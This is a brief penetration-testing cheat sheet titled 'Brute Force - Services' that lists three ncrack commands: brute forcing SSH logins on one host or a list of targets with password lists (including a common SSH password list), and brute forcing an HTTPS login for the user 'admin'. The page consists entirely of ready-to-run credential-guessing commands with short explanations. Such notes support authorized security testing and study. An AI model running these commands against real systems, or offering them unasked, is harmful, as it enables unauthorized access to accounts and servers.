 # Brute Force - Services

```
ncrack -u user -P password_list.txt -p ssh 192.168.1.1
```

Run SSH brute force on a single host with password list

```
ncrack -v --user <user> --pass "SecLists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt"  -p ssh -iL targets.txt
```

Run SSH brute force on targets from a list with password list of common ssh passwords

```
ncrack --user admin -P passwords.txt https://192.168.1.1:443
```

Brute force HTTP(S) with password list and single user
